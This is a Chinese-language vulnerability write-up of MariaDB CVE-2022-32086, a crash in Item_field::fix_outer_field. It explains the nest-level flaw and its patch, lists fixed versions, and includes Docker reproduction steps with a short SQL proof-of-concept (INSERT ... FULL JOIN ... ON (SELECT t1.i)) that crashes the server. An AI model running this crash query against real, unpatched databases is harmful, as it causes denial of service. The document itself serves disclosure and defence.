


# CVE-2022-32086 MariaDB 段错误

## 漏洞背景

- **Item_field::fix_outer_field组件**：MariaDB数据库系统中`Item_field`类的一个成员函数。该函数的主要作用是解析可能属于外部查询块的列引用，即处理在嵌套查询中引用外部查询的列。在SQL查询中，内部查询有时需要引用外部查询的列，这种情况下就需要通过`fix_outer_field`函数来解析和确认这些列引用的正确性。通过调用`fix_outer_field`，MariaDB能够正确处理和解析嵌套查询中的外部列引用，确保查询的正确执行。
- **基于嵌套层级的判断**：在 MariaDB 的 SQL 解析过程中，每个查询都会被赋予一个 **嵌套层级（nest level）**，用于区分不同的查询上下文，比如：
  - **最外层查询**（顶级查询）层级最低，如 `SELECT * FROM t1;`
  - **子查询** 的嵌套层级会增加，例如 `SELECT (SELECT i FROM t1) FROM t2;`

## 漏洞原理

该漏洞源于组件`Item_field::fix_outer_field`，可能导致段错误（segmentation fault）。攻击者可以利用此漏洞引发数据库崩溃，导致拒绝服务（DoS）

## 漏洞定位

在 **sql\item.cc** 文件的第 **5511** 行，`Item_field::fix_outer_field` 函数用于处理查询中对外层字段的引用，特别是在复杂的嵌套查询或子查询环境中。它是基于比较嵌套层级（nest level） 来决定是否调整外部字段引用的处理逻辑。主要作用是正确解析和绑定外层查询中的字段，以确保在内层查询或当前查询块中能够正确引用这些字段。

在第 **5643** 行，此代码的意图是当解析器处于聚合函数（如SUM、AVG等）内部，并且当前聚合函数的嵌套级别大于或等于当前查询块的嵌套级别时，执行特定的处理。但是缺少对`thd->lex`和`context->select_lex->parent_lex`之间关系的验证，导致在处理查询中字段引用的解析和依赖关系的标记时，函数没有正确判断当前上下文与外层上下文的关系，导致在某些情况下错误地引用了外层字段，`thd->lex->in_sum_func`指向无效或不正确的内存区域，从而引发段错误

```cpp
int
Item_field::fix_outer_field(THD *thd, Field **from_field, Item **reference)
{
  // ... ... 
        if (*from_field != view_ref_found)
        {
          prev_subselect_item->used_tables_cache|= (*from_field)->table->map;
          prev_subselect_item->const_item_cache= 0;
          set_field(*from_field);
          if (!last_checked_context->select_lex->having_fix_field &&
              select->group_list.elements &&
              (place == SELECT_LIST || place == IN_HAVING))
          {
            Item_outer_ref *rf;
            /*
              If an outer field is resolved in a grouping select then it
              is replaced for an Item_outer_ref object. Otherwise an
              Item_field object is used.
              The new Item_outer_ref object is saved in the inner_refs_list of
              the outer select. Here it is only created. It can be fixed only
              after the original field has been fixed and this is done in the
              fix_inner_refs() function.
            */
            ;
            if (!(rf= new (thd->mem_root) Item_outer_ref(thd, context, this)))
              return -1;
            thd->change_item_tree(reference, rf);
            select->inner_refs_list.push_back(rf, thd->mem_root);
            rf->in_sum_func= thd->lex->in_sum_func;
          }
          /*
            A reference is resolved to a nest level that's outer or the same as
            the nest level of the enclosing set function : adjust the value of
            max_arg_level for the function if it's needed.
          */
            /*
            thd->lex->in_sum_func：检查是否在聚合函数内部
            thd->lex->in_sum_func->nest_level：表示当前解析中的聚合函数（如 SUM()）的嵌套层级
            select->nest_level：表示当前 SQL 语句（查询块）的嵌套层级
            thd->lex->in_sum_func->nest_level >= select->nest_level 比较聚合函数的嵌套级别和当前查询的嵌套级别，试图判断当前 SQL 语句是否应该调整外部字段引用，确保在正确的嵌套级别下进行处理 
            */
          if (thd->lex->in_sum_func &&
              thd->lex->in_sum_func->nest_level >= select->nest_level)
          {
            Item::Type ref_type= (*reference)->type();
            set_if_bigger(thd->lex->in_sum_func->max_arg_level,
                          select->nest_level);
            set_field(*from_field);
            base_flags|= item_base_t::FIXED;
            mark_as_dependent(thd, last_checked_context->select_lex,
                              context->select_lex, this,
                              ((ref_type == REF_ITEM ||
                                ref_type == FIELD_ITEM) ?
                               (Item_ident*) (*reference) : 0), false);
            return 0;
          }
        }
        else
        {
          Item::Type ref_type= (*reference)->type();
          prev_subselect_item->used_tables_and_const_cache_join(*reference);
          mark_as_dependent(thd, last_checked_context->select_lex,
                            context->select_lex, this,
                            ((ref_type == REF_ITEM || ref_type == FIELD_ITEM) ?
                             (Item_ident*) (*reference) :
                             0), false);
          if (thd->lex->in_sum_func &&
              thd->lex->in_sum_func->nest_level >= select->nest_level)
          {
            set_if_bigger(thd->lex->in_sum_func->max_arg_level,
                          select->nest_level);
          }
          /*
            A reference to a view field had been found and we
            substituted it instead of this Item (find_field_in_tables
            does it by assigning the new value to *reference), so now
            we can return from this function.
          */
          return 0;
        }
      }
      break;
    }

    // ... ...
}
```

**修复：**

在原始代码中，函数仅通过比较嵌套级别（`thd->lex->in_sum_func->nest_level >= select->nest_level`）来判断是否处于需要处理外部字段引用的情况。这种判断方式仅关注了数值上的“嵌套深度”，但忽略了实际上下文是否匹配的问题。

修改后增加了`thd->lex == context->select_lex->parent_lex`的判断，确保只有在解析器的当前上下文与字段引用的上下文匹配时，才进行后续的处理。这避免了在不正确的上下文中访问无效内存，从而防止了段错误的发生

## 漏洞修复

升级到 MariaDB 10.4.25、10.5.16、10.6.8、10.7.4 或包含 MDEV-26412 修复的对应分支更高版本。补丁修正了 `Item_field::fix_outer_field()` 中的嵌套层级检查，确保外层字段引用只附加到正确的聚合函数或查询块，不再指向无效的解析上下文。

作为临时缓解措施，应限制创建包含深层嵌套聚合和相关子查询的视图或存储对象，并禁止不可信用户执行任意 SQL。只有供应商补丁能够可靠覆盖等价的查询形式。

## 影响版本


**受影响的版本：** MariaDB 10.4.x 至 10.8.x

## 环境搭建

使用MariaDB v10.6.3



## 漏洞复现

1、进入容器命令行，使用root用户登录

```bash
docker exec -it mariadb-10.6.3 bash
mariadb -u root -p
```

2、新建数据库testdb并切换至testdb数据库

```sql
create database testdb;
use testdb;
```

3、执行sql命令，可以看到遇到错误且容器自动关闭

```sql
CREATE TABLE t1 (i int) ;
CREATE TABLE t2 (j int) ;
INSERT INTO t1 SELECT * FROM t1 FULL JOIN t2 ON (SELECT t1.i);
```



4、查看容 MariaDB 崩溃日志：

```bash
docker logs mariadb-10.6.3
```

可以看到`[ERROR] mysqld got signal 11 ;`，表明 Segmentation Fault（段错误）发生

崩溃发生在 `Item_field::fix_outer_field` 函数内，可能是由于外部字段修复过程中的错误


## POC分析

创建两个表：`t1`和`t2`，各包含一个整数列，并对 `t1` 和 `t2` 进行 `FULL JOIN` 连接，并尝试使用 `ON (SELECT t1.i)` 作为连接条件。在连接条件中，`(SELECT t1.i)`是一个子查询，引用了`t1`表的列`i`

```sql
CREATE TABLE t1 (i int) ;
CREATE TABLE t2 (j int) ;
INSERT INTO t1 SELECT * FROM t1 FULL JOIN t2 ON (SELECT t1.i);
```

这里 `(SELECT t1.i)` 这个子查询出现在 `FULL JOIN` 的 `ON` 子句里。按照解析逻辑：

1. 外层查询 `SELECT \* FROM t1 FULL JOIN t2 ...` 处于某个嵌套层级（N）

2. 子查询 `(SELECT t1.i)` 处于更深一层的嵌套层级（N+1）

3. `Item_field::fix_outer_field` 需要决定如何处理 `t1.i` 这个字段引用

   

在 MariaDB 解析这条语句时，先解析 `FROM t1 FULL JOIN t2`，再解析 `ON` 语句。但是，在 `ON (SELECT t1.i)` 这种情况下，`SELECT t1.i` 这个子查询需要 `t1.i`，但 `t1` 仍在 `JOIN` 处理中，此时 `t1` 还未建立完整的作用域

`fix_outer_field` 试图解析 `t1.i`，但仅依据 `nest_level` 判断 `t1.i` 是否可用，而不是检查 `t1.i` 是否真的在当前作用域内，而不是检查 `t1.i` 真实的作用域是否匹配当前 `ON` 语句，导致MariaDB 错误地认为 `t1.i` 在当前作用域可用，进而尝试访问错误的内存，引发段错误。

问题的关键点就在于 **`FULL JOIN` 和 `ON` 子句的解析发生在不同的上下文中**，而 MariaDB **错误地允许 `ON` 语句中的子查询 `(SELECT t1.i)` 访问了错误作用域的 `t1.i`**。`t1.i` 实际上属于 `N` 作用域（解析器的当前上下文 `thd->lex`），而 `ON` 子查询 (`N+1`) （字段引用的上下文`context->select_lex`）本不应该访问 `N` 层级的 `t1.i`，导致段错误

## 参考链接


[ MariaDB v10.4 to v10.8 was discovered to contain a... · CVE-2022-32086 · GitHub Advisory Database ](https://github.com/advisories/GHSA-8rp2-7jc6-wrw4)

[[MDEV-26412\] Server crash in Item_field::fix_outer_field for INSERT SELECT - Jira](https://jira.mariadb.org/browse/MDEV-26412)
